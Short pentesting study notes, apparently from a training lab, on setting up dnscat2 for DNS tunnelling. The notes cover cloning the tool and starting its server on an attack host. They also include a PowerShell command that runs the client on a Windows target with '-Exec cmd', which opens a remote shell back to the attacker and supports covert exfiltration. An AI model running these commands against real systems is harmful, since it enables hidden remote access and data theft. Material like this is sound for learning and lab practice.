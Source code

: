 
Uses DNS to send data between two hosts
- Data exfiltration over DNS
- Encrypted

- Set up dnscat2 server on attack host
- Set up dnscat2 client on target

```shell-session
git clone https://github.com/iagox86/dnscat2.git
```
```shell-session
cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

**Starting dnscat2 server (attack host)
```shell-session
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
- Gives us secret key to use when starting client to encrypt traffic

**Cloning dnscat2-powershell (attack host)
```shell-session
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
- Then, transfer to target

**Importing dnscat2.ps1 (on target)
```powershell-session
Import-Module .\dnscat2.ps1
```

**Run on target Windows machine
```powershell-session
Start-Dnscat2 -DNSserver 10.10.15.207 -Domain inlanefreight.local -PreSharedSecret f221676285634788816fc72cd644d4f5 -Exec cmd 
```

- 'window -i 1' creates a shell
- '?' gives us the help menu


